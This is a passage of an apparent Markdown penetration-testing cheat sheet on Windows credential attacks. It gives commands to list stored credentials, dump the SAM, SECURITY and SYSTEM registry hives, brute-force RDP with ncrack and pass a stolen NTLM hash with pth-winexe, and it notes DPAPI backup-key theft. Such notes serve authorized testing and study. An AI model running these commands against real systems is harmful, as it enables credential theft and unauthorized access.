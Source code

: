   - Installed apps
  - Turn off network level auth
  - Attach debugger to setg.exe

## Credentials

- Cheatsheet: <https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Windows/credential-search.md>
- Stored Credentials
  - Creates, lists, and deletes stored user names and passwords or credentials.
  - Usable with "runas /savecred"
    ```
    cmdkey /list
    ```
- LM hashes
  - Password longer than 7 is split and each half hashed separately
  - Passwords are converted into uppercase
  - No salt
  - Empty LM hash
    ```
    AAD3B435B51404EE
    aad3b435b51404ee
    AAD3B435B51404EEAAD3B435B51404EE
    aad3b435b51404eeaad3b435b51404ee
    ```
- NTLM hashes
    ```
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:8118cb8789b3a147c790db402b016a08:::
    (UID):(UID NUM):(LM HASH):(NT HASH):(COMMENT):(USER HOME PATH):
    ```
- Dumping hashes
  - Cannot copy SAM when sys is in use
  ```
  C:\> reg.exe save hklm\sam sam
  C:\> reg.exe save hklm\security security
  C:\> reg.exe save hklm\system system
  ```
  - Use secretsdump.py to extract 
- Capturing Hashes
  - Inveigh
  - Impacket's smbserver.py
- RDP Password Brute-forcing: `ncrack -v -f --user administrator -P password.txt rdp://ip,CL=1`
- Attack Patterns
  - Pass the Hash
    - Auth using username and NTLM hash (since NTLM and LM hashes are not salted)
      - Replace "no password" in dump wih empty LM hash
      - Copy admins dumped hash (LM:NTML)
      ```
      export SMBHASH=LM:NTML
      pth-winexe -U administrator% //ip cmd
      ```
    - pth-winexe
      ```
      pth-winexe
      -U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
      //10.10.10.63 cmd
      ```
  - LSASS
  - DPAPI Backup Key
    - Access to secret keys of all users in a domain (certificate, private key, etc.)
    - Obtaining the never changing DPAPI master key
    - In a domain setup, all master keys are required to decrypt the keys.
      - All master keys are protected using  one never renewed  key.
      - Backup key protocol can be used (tz) to get this key from DC.